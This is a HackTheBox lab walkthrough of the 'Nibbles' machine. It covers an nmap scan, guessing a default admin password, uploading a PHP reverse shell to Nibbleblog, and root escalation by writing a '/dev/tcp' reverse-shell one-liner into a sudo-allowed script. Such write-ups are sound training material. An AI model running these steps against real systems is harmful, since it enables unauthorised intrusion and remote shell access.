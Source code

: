 ```yaml
---
title: Nibbles - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-18 12:00:00 
categories: [HackTheBox,Linux]
tags: [sudo]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Nibbles/00-banner.png
  width: 593
  height: 354
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Nibbles` a machine by HackTheBox rated easy. Without further ado, let’s begin.

# Recon
## Nmap Scan
As always we'll start with a nmap scan to discover the open ports and services.
```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Fri Oct  8 19:28:34 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.232.219
Increasing send delay for 10.129.232.219 from 0 to 5 due to 56 out of 185 dropped probes since last increase.
Nmap scan report for 10.129.232.219
Host is up (0.12s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  8 19:29:10 2021 -- 1 IP address (1 host up) scanned in 35.66 seconds
```

Two ports are open 22 and 80 running SSH and HTTP.

## HTTP Enumeration

![01-web](/assets/img/HTB/Nibbles/01-web.png)

On the web site just there a message: 'Hello World!', but the interesting thing is a comment on the source code showing a directory `/nibbleblog`.

![02-nibbles](/assets/img/HTB/Nibbles/02-nibbles.png)

Seems this site is powered by [Nibbleblog](https://github.com/dignajar/nibbleblog)

![03-vulns](/assets/img/HTB/Nibbles/03-vulns.png)

And is vulnerable to an Arbitrary File Upload but for this we need credentials.
The login page is on `/admin.php`, I tried 'admin/admin', 'admin/password' and 'admin/machine's name' in this case is `nibbles`.

User| Password
-|-
admin| nibbles

![04-access](/assets/img/HTB/Nibbles/04-access.png)

# Initial Foothold

We can find a reverse shell on `/usr/share/webshells/php/php-reverse-.shell.php`, let´s configure our php reverse shell changing the ip and our listener port, once it's done just upload the file.

![05-php](/assets/img/HTB/Nibbles/05-php.png)

Start a netcat listener on port 443, and click on `image.php` to get a shell.

![06-image](/assets/img/HTB/Nibbles/06-image.png)

For a interactive shell run this commands:

```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
$   ^Z
$ stty raw -echo;fg
$	reset
$ export TERM=xterm
$ export SHELL=bash
```

In nibbler's home directory there a zip file.

![07-ls](/assets/img/HTB/Nibbles/07-ls.png)

# Privilage Escalation

When we unzip this file it create `personal/stuff/monitor.sh` script.

![08-zip](/assets/img/HTB/Nibbles/08-zip.png)

`sudo -l` show us that we can execute this script as the user root without password.

![09-sudo](/assets/img/HTB/Nibbles/09-sudo.png)

As we are the owners of this file we can insert a reverse shell into it.

```console
$ echo '#!/bin/bash' > monitor.sh
$ echo 'bash -i >& /dev/tcp/10.10.14.39/443 0>&1' >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
```

![10-script](/assets/img/HTB/Nibbles/10-script.png)

Just need a netcat listener on port 443 to get the shell.

![11-root](/assets/img/HTB/Nibbles/11-root.png)

Now we can read the flag.
That’s it for now guys. Until next time.

